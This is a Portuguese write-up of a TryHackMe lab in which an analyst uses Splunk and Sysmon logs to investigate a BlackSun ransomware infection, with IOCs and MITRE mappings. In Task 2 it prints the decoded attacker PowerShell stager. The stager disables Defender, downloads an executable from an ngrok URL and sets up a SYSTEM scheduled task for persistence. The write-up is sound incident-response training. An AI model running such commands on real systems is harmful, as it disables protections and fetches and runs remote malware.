# 🔍 Investigação de Ransomware com Splunk — BlackSun (TryHackMe)


---

## 📋 Sumário

- [Sobre o Lab](#sobre-o-lab)
- [Cenário](#cenário)
- [Objetivos da Investigação](#objetivos-da-investigação)
- [Arquitetura do Ataque](#arquitetura-do-ataque)
- [Investigação Passo a Passo](#investigação-passo-a-passo)
  - [Tarefa 1 — Detecção Inicial: Conexões de Rede Suspeitas](#tarefa-1--detecção-inicial-conexões-de-rede-suspeitas)
  - [Tarefa 2 — Análise do PowerShell e Decodificação do Base64](#tarefa-2--análise-do-powershell-e-decodificação-do-base64)
  - [Tarefa 3 — Defang da URL do C2 Primário](#tarefa-3--defang-da-url-do-c2-primário)
  - [Tarefa 4 — Confirmação da Execução do PowerShell Obfuscado](#tarefa-4--confirmação-da-execução-do-powershell-obfuscado)
  - [Tarefa 5 — Mecanismo de Persistência: Criação da Scheduled Task](#tarefa-5--mecanismo-de-persistência-criação-da-scheduled-task)
  - [Tarefa 6 — Modificações no Registro do Windows](#tarefa-6--modificações-no-registro-do-windows)
  - [Tarefa 7 — Identificação do Binário Malicioso](#tarefa-7--identificação-do-binário-malicioso)
  - [Tarefa 8 — Elevação de Privilégio e Execução via schtasks](#tarefa-8--elevação-de-privilégio-e-execução-via-schtasks)
  - [Tarefa 9 — Infraestrutura de Comando e Controle (C2)](#tarefa-9--infraestrutura-de-comando-e-controle-c2)
  - [Tarefa 10 — Análise do Payload (BlackSun.ps1)](#tarefa-10--análise-do-payload-blacksunps1)
  - [Tarefa 11 — Impacto Final: Ransom Note e Wallpaper](#tarefa-11--impacto-final-ransom-note-e-wallpaper)
- [Indicadores de Comprometimento (IOCs)](#indicadores-de-comprometimento-iocs)
- [Lições Aprendidas](#lições-aprendidas)

---

## Sobre o Lab

| Parâmetro          | Detalhe                                      |
|--------------------|----------------------------------------------|
| Plataforma         | TryHackMe                                    |
| Tipo               | Investigação de Ransomware — Threat Hunting  |
| Ferramenta         | Splunk Enterprise 8.2.4                      |
| Logs utilizados    | Sysmon + Windows Event Logs                  |
| Família do malware | BlackSun Ransomware (PowerShell)             |
| Nível              | Intermediário                                |

---

## Cenário

> Você é analista SOC em uma empresa MSSP chamada **TryNotHackMe**. Um cliente reportou que a máquina do usuário **Keegan** está operacional, mas alguns arquivos apresentam extensões desconhecidas. A suspeita é de um ataque de ransomware. Sua missão é investigar os eventos no **Splunk** e reconstruir a cadeia de ataque.

| Parâmetro          | Detalhe                                  |
|--------------------|------------------------------------------|
| Host comprometido  | `KEEGAN-PC` / `DESKTOP-TBV8NEF`         |
| Data do incidente  | Segunda-feira, 16 de maio de 2022        |
| Tipo de incidente  | Ransomware (BlackSun)                    |
| Status do host     | Operacional durante o ataque             |

---

## Objetivos da Investigação

| # | Objetivo                                                                 | Status |
|---|--------------------------------------------------------------------------|--------|
| 1 | Detectar conexões de rede suspeitas originadas no host                   | ✅     |
| 2 | Decodificar o comando PowerShell obfuscado em Base64                     | ✅     |
| 3 | Identificar o binário malicioso baixado e sua origem                     | ✅     |
| 4 | Mapear o mecanismo de persistência via Scheduled Task                    | ✅     |
| 5 | Identificar modificações no registro do Windows                          | ✅     |
| 6 | Identificar a infraestrutura C2 usada pelo atacante                      | ✅     |
| 7 | Analisar e confirmar o payload final (BlackSun Ransomware)               | ✅     |
| 8 | Localizar artefatos de impacto (ransom note e wallpaper)                 | ✅     |

---

## Arquitetura do Ataque

```
[Atacante Remoto]
       |
       | ngrok tunnel C2 Primário
       | hxxp://886e-181-215-214-32[.]ngrok[.]io
       v
[PowerShell -exec bypass -enc <BASE64>]
       |
       |── Set-MpPreference -DisableRealtimeMonitoring $true
       |   (Windows Defender DESATIVADO)
       |
       | wget → OUTSTANDING_GUTTER.exe → C:\Windows\Temp\
       v
[OUTSTANDING_GUTTER.exe] ── NT AUTHORITY\SYSTEM
       |
       |── schtasks.exe /Create /RU SYSTEM /SC ONEVENT (EventID=777)
       |   (Persistência garantida via Scheduled Task)
       |
       |── EventCode=12: Modificação de registro (Install Root Certificate)
       |
       | DNS Query → C2 Secundário
       | hxxp://9030-181-215-214-32[.]ngrok[.]io
       |
       | Conexão TCP:443 → 3.17.7.232 / 3.22.30.40
       |
       | Baixa script.ps1 (BlackSun.ps1) → C:\Windows\Temp\
       v
[Criptografia de Arquivos — BlackSun Ransomware]
       |
       |── C:\Users\keegan\Downloads\vasg6b0wmw029hd\BlackSun_README.txt
       └── C:\Users\Public\Pictures\blacksun.jpg (Wallpaper defacement)
```

---

## Investigação Passo a Passo

---

### Tarefa 1 — Detecção Inicial: Conexões de Rede Suspeitas

**Query Splunk:**
```
* DestinationPort=443 DestinationIp="3.17.7.232"
```

A busca retornou **206 eventos** de conexão de rede (Sysmon EventCode 3 — Network Connection), todos originados de `C:\Windows\Temp\OUTSTANDING_GUTTER.exe` com destino ao IP `3.17.7.232` na porta **443/TCP**. O volume elevado e a consistência do processo de origem são os primeiros indicativos de um binário malicioso realizando beaconing para um servidor remoto.

| Campo             | Valor                                      |
|-------------------|--------------------------------------------|
| Evento Sysmon     | EventCode 3 — Network Connection Detected  |
| Processo de origem| `C:\Windows\Temp\OUTSTANDING_GUTTER.exe`   |
| IP de destino     | `3.17.7.232`                               |
| Porta de destino  | `443` (TCP)                                |
| IP de origem      | `192.168.10.167`                           |
| Usuário           | `NT AUTHORITY\SYSTEM`                      |

> **Técnica MITRE ATT&CK:** T1071.001 — Application Layer Protocol: Web Protocols | T1036 — Masquerading



---

### Tarefa 2 — Análise do PowerShell e Decodificação do Base64

**Query Splunk:**
```
* powershell
```

A análise dos **Top 10 Values** do campo `CommandLine` revelou os comandos mais executados pelo PowerShell no host. Entre eles, destacam-se o comando completo de criação da scheduled task e um extenso payload codificado em **Base64** com o parâmetro `-exec bypass -enc`, técnica clássica de evasão de defesas.

O payload Base64 foi extraído e decodificado via **CyberChef** (From Base64 + Remove null bytes), revelando o seguinte comando em texto claro:

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true;
wget http://886e-181-215-214-32.ngrok.io/OUTSTANDING_GUTTER.exe -OutFile C:\Windows\Temp\OUTSTANDING_GUTTER.exe;
SCHTASKS /Create /TN "OUTSTANDING_GUTTER.exe" /TR "C:\Windows\Temp\OUTSTANDING_GUTTER.exe" /SC ONEVENT /EC Application /MO *[System/EventID=777] /RU "SYSTEM" /f;
SCHTASKS /Run /TN "OUTSTANDING_GUTTER.exe"
```

| Etapa             | Ação                                                          |
|-------------------|---------------------------------------------------------------|
| Evasão            | `Set-MpPreference -DisableRealtimeMonitoring $true` — desativa o Windows Defender |
| Download          | `wget` baixa `OUTSTANDING_GUTTER.exe` via ngrok              |
| Persistência      | `SCHTASKS /Create` registra tarefa com trigger em EventID=777 |
| Execução imediata | `SCHTASKS /Run` aciona a tarefa imediatamente                 |

> **Técnica MITRE ATT&CK:** T1059.001 — PowerShell | T1027 — Obfuscated Files or Information | T1562.001 — Impair Defenses





---

### Tarefa 3 — Defang da URL do C2 Primário

Com a URL de download identificada na decodificação do Base64, ela foi submetida ao **CyberChef** com a operação **Defang URL** para torná-la segura para documentação e compartilhamento em relatórios de inteligência de ameaças.

| Campo        | Valor                                         |
|--------------|-----------------------------------------------|
| URL original | `http://886e-181-215-214-32.ngrok.io`         |
| URL defanged | `hxxp[://]886e-181-215-214-32[.]ngrok[.]io`   |
| Finalidade   | Download do binário `OUTSTANDING_GUTTER.exe`  |

> O defanging de URLs é uma prática padrão em relatórios de Threat Intelligence para evitar cliques acidentais em links maliciosos.



---

### Tarefa 4 — Confirmação da Execução do PowerShell Obfuscado

**Query Splunk:**
```
* powershell Image="C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe" CommandLine="powershell.exe -exec bypass -enc UwB..."
```

A busca retornou **3 eventos** confirmando a execução do PowerShell obfuscado diretamente a partir do `cmd.exe` como processo pai, com o usuário `DESKTOP-TBV8NEF\keegan`. Isso indica que o payload foi disparado interativamente ou via script na sessão do usuário.

| Campo             | Valor                                                          |
|-------------------|----------------------------------------------------------------|
| Processo          | `C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe`   |
| Processo pai      | `C:\Windows\System32\cmd.exe`                                  |
| Usuário           | `DESKTOP-TBV8NEF\keegan`                                       |
| Parâmetros        | `-exec bypass -enc <BASE64>`                                   |
| EventCode         | 1 — Process Create                                             |

> **Técnica MITRE ATT&CK:** T1059.001 — PowerShell | T1059.003 — Windows Command Shell



---

### Tarefa 5 — Mecanismo de Persistência: Criação da Scheduled Task

**Query Splunk:**
```
* powershell CommandLine="\"C:\\Windows\\system32\\schtasks.exe\" /Create /TN OUTSTANDING_GUTTER.exe /TR C:\\Windows\\Temp\\OUTSTANDING_GUTTER.exe /SC ONEVENT /EC Application /MO *[System/EventID=777] /RU SYSTEM /f"
```

Foram identificados **3 eventos** de criação da tarefa agendada. O processo pai em todos os casos é o `powershell.exe` executando o payload Base64, confirmando a cadeia de execução completa.

| Campo               | Valor                                                                                        |
|---------------------|----------------------------------------------------------------------------------------------|
| Nome da tarefa      | `OUTSTANDING_GUTTER.exe`                                                                     |
| Caminho de execução | `C:\Windows\Temp\outstanding_gutter.exe`                                                     |
| Gatilho             | `ONEVENT` — Application Event ID 777                                                         |
| Privilégio          | `NT AUTHORITY\SYSTEM`                                                                        |
| Processo pai        | `C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe`                                  |
| Usuário que disparou| `DESKTOP-TBV8NEF\keegan`                                                                     |
| Comando completo    | `"C:\Windows\system32\schtasks.exe" /Create /TN OUTSTANDING_GUTTER.exe /TR C:\Windows\Temp\outstanding_gutter.exe /SC ONEVENT /EC Application /MO *[System/EventID=777] /RU SYSTEM /f` |

> **Técnica MITRE ATT&CK:** T1053.005 — Scheduled Task/Job: Scheduled Task





---

### Tarefa 6 — Modificações no Registro do Windows

**Query Splunk:**
```
* powershell EventCode=12
```

A busca retornou **35 eventos** do Sysmon **EventCode 12** (Registry object added or deleted), todos gerados pelo `powershell.exe` com o usuário `NT AUTHORITY\SYSTEM`. A RuleName identificada foi `technique_id=T1130,technique_name=Install Root Certificate`, indicando que o ransomware tentou instalar certificados raiz no sistema.

| Campo         | Valor                                                              |
|---------------|--------------------------------------------------------------------|
| Evento Sysmon | EventCode 12 — Registry Object Added or Deleted                    |
| TargetObject  | `HKLM\SOFTWARE\Microsoft\EnterpriseCertificates\Root\Certificates` |
| EventType     | `CreateKey`                                                        |
| Processo      | `C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe`        |
| Usuário       | `NT AUTHORITY\SYSTEM`                                              |

> **Técnica MITRE ATT&CK:** T1130 — Install Root Certificate | T1112 — Modify Registry



---

### Tarefa 7 — Identificação do Binário Malicioso

**Query Splunk:**
```
*OUTSTANDING_GUTTER.exe
```

A busca retornou **325 eventos**, confirmando intensa atividade do binário no host. O processo operou exclusivamente com o usuário `NT AUTHORITY\SYSTEM` e realizou conexões de rede na porta **443/TCP** para os IPs `3.17.7.232` e `3.22.30.40`.

| Campo             | Valor                                      |
|-------------------|--------------------------------------------|
| Binário           | `OUTSTANDING_GUTTER.exe`                   |
| Caminho           | `C:\Windows\Temp\OUTSTANDING_GUTTER.exe`   |
| Origem do download| `hxxp://886e-181-215-214-32[.]ngrok[.]io`  |
| Executor          | `C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe` |
| Usuário           | `NT AUTHORITY\SYSTEM`                      |
| IPs de destino    | `3.17.7.232` / `3.22.30.40`               |
| Porta de destino  | 443 (TCP)                                  |

> **Técnica MITRE ATT&CK:** T1105 — Ingress Tool Transfer | T1036 — Masquerading



---

### Tarefa 8 — Elevação de Privilégio e Execução via schtasks

**Query Splunk:**
```
*OUTSTANDING_GUTTER.exe CommandLine="\"C:\\Windows\\system32\\schtasks.exe\" /Run /TN OUTSTANDING_GUTTER.exe"
```

Foram identificados **3 eventos** confirmando a execução da tarefa agendada via `schtasks.exe /Run`. Em todos os casos, o processo pai é o `powershell.exe` com o payload Base64, e a execução ocorre com `NT AUTHORITY\SYSTEM`.

| Campo             | Valor                                                      |
|-------------------|------------------------------------------------------------|
| Comando           | `"C:\Windows\system32\schtasks.exe" /Run /TN OUTSTANDING_GUTTER.exe` |
| Processo pai      | `C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe` |
| Usuário executor  | `DESKTOP-TBV8NEF\keegan`                                  |
| Privilégio obtido | `NT AUTHORITY\SYSTEM`                                      |
| EventCode         | 1 — Process Create                                         |

> **Técnica MITRE ATT&CK:** T1053.005 — Scheduled Task | T1078 — Valid Accounts



---

### Tarefa 9 — Infraestrutura de Comando e Controle (C2)

**Query Splunk:**
```
*OUTSTANDING_GUTTER.exe User="NT AUTHORITY\\SYSTEM" QueryName="9030-181-215-214-32.ngrok.io"
```

O Sysmon **EventCode 22** (DNS Query) revelou o endereço de callback C2 secundário utilizado pelo binário. O atacante usou **ngrok** para tunelar o tráfego malicioso através de um serviço legítimo, dificultando bloqueios por reputação de IP.

| Campo         | Valor                                        |
|---------------|----------------------------------------------|
| Evento Sysmon | EventCode 22 — DNS Query                     |
| C2 Primário   | `hxxp://886e-181-215-214-32[.]ngrok[.]io`    |
| C2 Secundário | `hxxp://9030-181-215-214-32[.]ngrok[.]io`    |
| QueryResults  | `::ffff:3.22.30.40`                          |
| Processo      | `C:\Windows\Temp\OUTSTANDING_GUTTER.exe`     |
| Usuário       | `NT AUTHORITY\SYSTEM`                        |

**URL defanged via CyberChef:**
```
hxxp[://]9030-181-215-214-32[.]ngrok[.]io
```

> **Técnica MITRE ATT&CK:** T1071.001 — Web Protocols | T1572 — Protocol Tunneling





---

### Tarefa 10 — Análise do Payload (BlackSun.ps1)

**Query Splunk:**
```
*ps1
```

A busca identificou o arquivo `script.ps1` em `C:\Windows\Temp\`, criado e posteriormente deletado pelo processo PowerShell rodando como `NT AUTHORITY\SYSTEM` (Sysmon EventCode 23 — File Delete Archived). Dois eventos complementares foram encontrados: um destacando o processo e o arquivo alvo, e outro destacando o hash SHA256 completo para correlação com bases de inteligência.

O hash **SHA256** extraído do log:
```
e5429f2e44990b3d4e249c566fbf19741e671c0e40b809f87248d9ec9114bef9
```

A consulta ao **VirusTotal** confirmou: **31 de 54** vendors classificam o arquivo como malicioso, com o nome original `BlackSun.ps1`.

| Campo           | Valor                                                              |
|-----------------|--------------------------------------------------------------------|
| Nome no sistema | `script.ps1`                                                       |
| Nome original   | `BlackSun.ps1`                                                     |
| Caminho         | `C:\Windows\Temp\script.ps1`                                       |
| SHA256          | `e5429f2e44990b3d4e249c566fbf19741e671c0e40b809f87248d9ec9114bef9` |
| Detecções VT    | 31/54                                                              |
| Classificação   | `ransomware.blacksun/powershell`                                   |
| Tamanho         | 56.62 KB                                                           |
| Evento Sysmon   | EventCode 23 — File Delete Archived                                |

> **Técnica MITRE ATT&CK:** T1486 — Data Encrypted for Impact | T1070.004 — File Deletion







---

### Tarefa 11 — Impacto Final: Ransom Note e Wallpaper

**Queries Splunk:**
```
.txt
.jpg
```

As buscas confirmaram a fase final do ataque. A busca por `.txt` identificou a nota de resgate criada pelo ransomware, e a busca por `.jpg` confirmou a substituição do wallpaper da área de trabalho — dois artefatos que sinalizam que o atacante atingiu seus **"Actions on Objectives"**.

| Artefato    | Caminho completo                                                         | Evento Sysmon    |
|-------------|--------------------------------------------------------------------------|------------------|
| Ransom Note | `C:\Users\keegan\Downloads\vasg6b0wmw029hd\BlackSun_README.txt`          | EventCode 11 — File Created |
| Wallpaper   | `C:\Users\Public\Pictures\blacksun.jpg`                                  | EventCode 11 — File Created |
| Criado por  | `C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe`              |                  |
| Usuário     | `NT AUTHORITY\SYSTEM`                                                    |                  |
| Timestamp   | 2022-05-16 13:39:30 / 13:39:31 UTC                                       |                  |

> **Técnica MITRE ATT&CK:** T1491.001 — Internal Defacement | T1486 — Data Encrypted for Impact





---

## Indicadores de Comprometimento (IOCs)

### Artefatos de Arquivo

| Nome do Arquivo          | Caminho Completo                                                         | Descrição                          |
|--------------------------|--------------------------------------------------------------------------|------------------------------------|
| `outstanding_gutter.exe` | `C:\Windows\Temp\outstanding_gutter.exe`                                 | Binário downloader principal       |
| `script.ps1`             | `C:\Windows\Temp\script.ps1`                                             | BlackSun Ransomware (BlackSun.ps1) |
| `BlackSun_README.txt`    | `C:\Users\keegan\Downloads\vasg6b0wmw029hd\BlackSun_README.txt`          | Nota de resgate                    |
| `blacksun.jpg`           | `C:\Users\Public\Pictures\blacksun.jpg`                                  | Wallpaper de defacement            |

### Artefatos de Rede

| Tipo  | Valor (Defanged)                              | Descrição                          |
|-------|-----------------------------------------------|------------------------------------|
| URL   | `hxxp://886e-181-215-214-32[.]ngrok[.]io`     | C2 primário — download do binário  |
| URL   | `hxxp://9030-181-215-214-32[.]ngrok[.]io`     | C2 secundário — callback (EID 22)  |
| IP    | `3.17.7.232`                                  | Destino TCP:443 (beaconing)        |
| IP    | `3.22.30.40`                                  | Resolução DNS do C2 secundário     |

### Hash

| Tipo   | Valor                                                              | Arquivo      |
|--------|--------------------------------------------------------------------|--------------|
| SHA256 | `e5429f2e44990b3d4e249c566fbf19741e671c0e40b809f87248d9ec9114bef9` | BlackSun.ps1 |

### Artefatos de Processo/Sistema

| Ferramenta       | Ação                                                                                                                                                |
|------------------|-----------------------------------------------------------------------------------------------------------------------------------------------------|
| `powershell.exe` | `-exec bypass -enc <BASE64>` — Execução obfuscada do stager                                                                                        |
| `powershell.exe` | `Set-MpPreference -DisableRealtimeMonitoring $true` — Desativa o Windows Defender                                                                  |
| `schtasks.exe`   | `/Create /TN OUTSTANDING_GUTTER.exe /TR C:\Windows\Temp\outstanding_gutter.exe /SC ONEVENT /EC Application /MO *[System/EventID=777] /RU SYSTEM /f` |
| `schtasks.exe`   | `/Run /TN OUTSTANDING_GUTTER.exe` — Execução imediata da tarefa                                                                                    |
| Privilégio       | `NT AUTHORITY\SYSTEM` — Usado em todas as etapas do ataque após a persistência                                                                      |

---

## Lições Aprendidas

**1. ngrok como vetor de evasão de C2**
O atacante utilizou túneis ngrok para mascarar o tráfego de comando e controle. Como o ngrok é um serviço legítimo, firewalls baseados em reputação de IP não bloqueiam o tráfego. A detecção eficaz exige monitoramento de subdomínios específicos via DNS (Sysmon Event ID 22) e política de bloqueio do protocolo ngrok quando não há necessidade de negócio justificada.

**2. PowerShell obfuscado como LOLBin primário**
O uso de `Set-MpPreference -DisableRealtimeMonitoring $true` combinado com payloads codificados em Base64 e o parâmetro `-exec bypass` é uma técnica clássica de evasão de EDR. A defesa requer habilitação de PowerShell **Script Block Logging** (Event ID 4104) e **AMSI** para inspeção de comandos desofuscados em runtime.

**3. Scheduled Tasks com gatilho em EventID personalizado**
A persistência via tarefa agendada com trigger em `Application EventID 777` é especialmente furtiva — diferente de tasks com trigger em `OnLogon` ou `OnStartup`, este padrão é raramente monitorado. A remediação exige deleção explícita da tarefa (`schtasks /Delete`) e não apenas o término do processo.

**4. Instalação de certificados raiz como indicador adicional**
O Sysmon EventCode 12 revelou tentativas de instalação de certificados raiz (`T1130`), um indicador frequentemente negligenciado em investigações de ransomware. Esse comportamento pode indicar preparação para ataques man-in-the-middle ou persistência adicional no trust store do sistema.

**5. Sysmon como fonte crítica de evidência forense**
Sem o Sysmon, grande parte desta investigação seria impossível. Os Event IDs mais relevantes neste caso foram: `EID 1` (Process Create), `EID 3` (Network Connection), `EID 11` (File Create), `EID 12` (Registry Event), `EID 22` (DNS Query) e `EID 23` (File Delete Archived). Ambientes sem Sysmon teriam lacunas críticas na cadeia de evidências.

**6. VirusTotal como confirmação rápida de IOC**
O hash SHA256 extraído diretamente dos logs do Splunk permitiu validação imediata no VirusTotal com 31/54 detecções, confirmando a família do malware e o nome original do arquivo (`BlackSun.ps1`). Essa correlação entre SIEM e threat intel acelera significativamente a resposta ao incidente.

---

<div align="center">


Desenvolvido por **Matheus Lima** | [GitHub](https://github.com/Matheuslimabjj) | [LinkedIn](https://linkedin.com/in/matheuslimabjj)

</div>
